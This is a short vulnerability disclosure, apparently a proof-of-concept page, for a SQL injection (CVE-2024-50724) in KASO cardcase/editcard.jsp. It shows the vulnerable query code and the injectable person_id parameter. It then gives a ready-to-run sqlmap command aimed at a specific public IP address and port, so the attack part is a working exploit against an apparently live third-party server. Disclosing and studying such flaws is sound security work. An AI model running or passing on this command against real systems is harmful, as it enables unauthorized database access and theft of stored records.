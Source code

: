# KASO cardcase/editcard.jsp Sql Injection

CVE-ID: CVE-2024-50724

VERSION: v9.0

Exploit Author: hndky






Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/294134a2-6cda-4215-ad39-becef72da11f)




